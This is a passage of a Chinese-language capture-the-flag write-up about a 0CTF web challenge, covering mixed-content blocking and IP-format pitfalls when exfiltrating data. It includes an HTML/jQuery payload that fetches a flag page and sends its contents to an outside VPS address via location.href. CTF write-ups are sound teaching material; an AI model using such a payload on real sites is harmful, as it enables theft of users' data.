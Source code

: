 此时，可以正确加载。

![cosp](https://moxiaoxi.info/img/post/0ctf/cosp.png)

#### HTTP的坑

这个前面讲过，在比赛期间遇到的，HTTPS src加载HTTP的问题。

```
(index):15 Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/'. This request has been blocked; the content must be served over HTTPS.
getinfo @ (index):15
xmlhttp.onreadystatechange @ (index):24
2(index):15 Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/Only%20ip%20from%20this%20host%20is%20allowed'. This request has been blocked; the content must be served over HTTPS.
getinfo @ (index):15
xmlhttp.onreadystatechange @ (index):24
```

chrome显示我们从https跳到了http阻拦了（实质就是https的页面src http，是不允许的，这也是前面适用 `\\`的一个需求，这个前面讲的思路中讲过！）。前文讲过直接改成https会导致看不到明文数据，所以只能是HTTP。

所以，修改成location.href的格式

```html
<html>
<head>
<meta http-equiv="Access-Control-Allow-Origin" content="*">
</head>


<script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
<script type="text/javascript">
$.get("https://router.vip/flag.php",function(data){
//alert(data);
        location.href="http://104.224.169.90:6789/"+escape(data);
});
</script>


</html>
```

此时，能在VPS上看到数据。



#### IP的坑

在看[Melody](http://www.melodia.pw/?p=889#comment-257411)博客时，发现他说10进制有一个坑。

> 这里有一个10进制的坑，就是当有10进制ip的时候，如果用`<link rel=import href=\\1759553882`这种格式，会被chrome干掉，打开 console 看到报错是 不安全的响应，当前页面是 https，而我的服务器虽然开启了 https，但是因为证书是不和 ip 绑定而是和域名绑定的，所以我需要使用域名才能绕过这个限制。

